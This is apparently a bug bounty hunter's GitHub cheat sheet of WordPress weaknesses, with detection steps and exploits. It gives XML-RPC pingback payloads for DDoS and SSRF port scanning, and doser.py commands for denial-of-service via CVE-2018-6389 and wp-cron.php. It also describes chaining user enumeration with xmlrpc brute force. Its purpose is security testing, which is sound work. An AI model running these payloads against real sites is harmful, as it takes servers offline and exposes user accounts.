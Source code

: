 # Wordpress Common Misconfiguration
Here I will try my best to mention all common security misconfigurations for Wordpress I saw before or officially referenced. I will be attaching all poc and reference as well

# Index
* Wordpress Detection
* General Scan Tool
* xmlrpc.php
* CVE-2018-6389
* WP Cornjob DOS
* WP User Enumeration

# Wordpress Detection
Well, if you are reading this you already know about technology detection tool and methods.
Still adding them below
* Wappalyzer
* WhatRuns
* BuildWith

# Geneal Scan Tool
* WpScan

# xmlrpc.php 
This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.

### Detection
* visit site.com/xmlrpc.php
* Get the error message about POST request only

### Exploit
* Intercept the request and change the method GET to POST
* List all Methods
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* Check the ```pingback.ping``` mentod is there or not
* Perform DDOS
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
* Perform SSRF (Internal PORT scan only)
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
### References
[Bug Bounty Cheat Sheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)

[Medium Writeup](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

[WpEngine Blog Post](https://wpengine.com/resources/xmlrpc-php/)

# CVE-2018-6389
This issue can down any Wordpress site under 4.9.3 So while reporting make sure that your target website is running wordpress under 4.9.3

### Detection
Use the URL from my gist called loadsxploit, you will get a massive js data in response.

[loadsxploit](https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9)

### Exploit
You can use any Dos tool i found Doser really fast and it shut down the webserver within 30 second

[Doser](https://github.com/quitten/doser.py)
```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
```
### References
[H1 Report](https://hackerone.com/reports/752010)

[CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389)

[Blog Post](https://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)


# WP Cornjob DOS
This is another area where you can perform a DOS attack.

### Detection
* visit site.com/wp-cron.php
* You will see a Blank page with 200 HTTP status code

### Exploit
You can use the same tool Doser for exploiting this 
```
python3 doser.py -t 999 -g 'https://site.com/wp-cron.php'
```
### Reference

[GitHub Issue](https://github.com/wpscanteam/wpscan/issues/1299)

[Medium Writeup](https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30)

# WP User Enumeration
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff

### Detection
* visit site.com/wp-json/wp/v2/users/
* You will see json data with user info in response

### Exploit
If you have xmlrpc.php and this User enumeration both presence there. Then you can chain them out by collecting username from wp-json and perform Bruteforce on them via xmlrpc.php. It will surely show some extra effort and increase the impact as well

### Reference
[H1 Report](https://hackerone.com/reports/356047)

# Researcher Note
Please do not depend on those issues at all. I saw people only looking for those issues and nothing else. Those are good to have a look while testing for other vulnerabilities and most of the time they work good for chaining with other low bugs.

# Author
**Name:** Mehedi Hasan Remon

**Handle:** [@remonsec](https://twitter.com/remonsec)